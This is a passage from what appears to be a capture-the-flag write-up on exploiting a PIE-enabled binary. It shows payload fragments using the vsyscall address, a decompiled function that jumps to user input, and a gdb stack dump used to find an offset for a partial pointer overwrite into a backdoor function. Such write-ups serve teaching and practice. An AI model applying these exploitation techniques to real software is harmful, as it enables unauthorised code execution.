 ```
	pay += p64(0xffffffffff600000)
	pay += p64(rand_val)
	
	p.send(pay)
	
```

Once the check is passed, `hidden_func()` is called.

### hidden_func:
Here is the decompilation for `hidden_func()`:
```
void hidden_func()
{
  __int64 buf[34]; // [rsp+0h] [rbp-110h] BYREF

  buf[33] = __readfsqword(0x28u);
  puts("\nJump to:");
  read(0, buf, 0xFFuLL);
  __asm { jmp     [rbp+buf] }
}

```

As we can see, it reads in 0xff bytes of input stream, and simply jumps to it. Our job is to find a way to call backdoor(). However, with pie enabled and no chance for leaks, one may find it difficult to provide the address for `backdoor` to jump to. 

However, we did see how vsyscall can be use to bypass the call on our buffer. We shall use the same concept, and change some code segment address on the stack to that of `backdoor()`. To do this, we will need to figure out the offset at which a suitable code address can be found on the stack, in order to overwrite the last byte of the address with that of backdoor's since we know for sure, even if pie is enabled the last 3 nibbles will always be the same. **Bruteforce is not needed.**


### checking for offset:

One can refer the below memory dump to find the offset. I have made use of a code segment address that was closest to the the backdoor function, so I will only have to change the last byte in order to jump to backdoor. 

```
gdb-peda$ x/40x $rbp-0x110
0x7ffcbed28130:	0x0000000000000d68	0x000000000000000a
0x7ffcbed28140:	0x00007f5304e716a0	0x000055b05bcd21c6
0x7ffcbed28150:	0x000055b05bcd4020	0x00007f5304e724a0
0x7ffcbed28160:	0x0000000000000000	0x00007f5304d19013
0x7ffcbed28170:	0x0000000000000011	0x00007f5304e716a0
0x7ffcbed28180:	0x000055b05bcd21c6	0x00007f5304ccf9c1
0x7ffcbed28190:	0x3bd948140000000f	0x4c85c70512f5c200
0x7ffcbed281a0:	0x000055b05bcd1200	0x00007f5304ccfe9d
0x7ffcbed281b0:	0x0000000000000000	0x000055b05bcd1418
0x7ffcbed281c0:	0x0000000000000d68	0x0000000f0000000a
0x7ffcbed281d0:	0x705f337275633373	0x0064723077737334
0x7ffcbed281e0:	0x000055b000000000	0x4c85c70512f5c200
0x7ffcbed281f0:	0x0000000000000000	0x000055b05bcd1650
0x7ffcbed28200:	0x00007ffcbed283b0	0x000055b05bcd1594
0x7ffcbed28210:	0x0000000a64636261	0x0000000000000000
0x7ffcbed28220:	0x7563337300000000	0x77737334705f3372
0x7ffcbed28230:	0x0000000000647230	0x4c85c70512f5c200
0x7ffcbed28240:	0x00007ffcbed283b0	0x000055b05bcd15c9
0x7ffcbed28250:	0x0000000000000000	0x3bd9481400000000
0x7ffcbed28260:	0x0000000061d973dd	0x00000000000e4ee8
gdb-peda$ p backdoor
$4 = {<text variable, no debug info>} 0x55b05bcd15df <backdoor>
gdb-peda$ p 0x7ffcbed28208 - 0x7ffcbed28130
```